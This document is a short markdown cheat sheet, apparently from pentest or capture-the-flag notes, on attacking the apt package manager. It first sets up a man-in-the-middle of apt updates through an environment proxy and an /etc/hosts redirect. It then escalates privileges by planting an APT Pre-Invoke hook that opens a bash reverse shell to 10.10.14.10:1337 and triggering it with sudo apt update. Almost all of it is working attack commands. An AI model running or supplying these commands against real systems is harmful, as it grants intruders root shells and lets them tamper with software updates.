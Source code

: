 ```yaml
---
title: "Apt"
date: 2024-7-4
tags: ["apt", "update", "privesc", "pre-invoke", "sudo"]
---
```


---
### MITM (Man-in-the-Middle)

#### 1. Add proxy path in target machine

<div>

```bash
export http_proxy=http://10.10.14.10:8888
```

</div>

#### 2. Start proxy in local machine

<div>

```bash
# Tool
pip3 install --upgrade proxy.py
```

```bash
# Start a proxy server
proxy --hostname 0.0.0.0 --port 8888
```

</div>

#### 3. Redirect traffic to our server

<div>

```bash
# Edit /etc/hosts
10.10.14.10 apt.update.example.com
```

</div>

<br>

---

### SUDO

<div>

```bash
# Create a malicious config
echo 'APT::Update::Pre-Invoke {"bash -c '\''bash -i >& /dev/tcp/10.10.14.10/1337 0>&1'\''"}' > /etc/apt/apt.conf.d/evil
```

```bash
# Exploit
sudo apt update -y
```

</div>

<br>